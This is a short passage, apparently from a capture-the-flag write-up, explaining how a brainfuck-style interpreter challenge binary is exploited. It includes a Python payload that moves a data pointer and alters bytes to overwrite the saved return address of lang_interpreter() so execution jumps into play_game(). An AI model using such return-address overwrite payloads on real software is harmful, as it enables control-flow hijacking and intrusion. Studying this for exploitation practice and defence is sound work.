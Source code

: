 ![check-stack-again.png](images/check-stack-again.png)

So we will change the saved rip of lang_interpreter() `0x00555555555846` into the last printf of play_game() `0x005555555554fd`, payload for this can be:

```python
payload = b'>'*0x98
payload += b'+'*0xb7
payload += b'>'
payload += b'-'*0x4
```
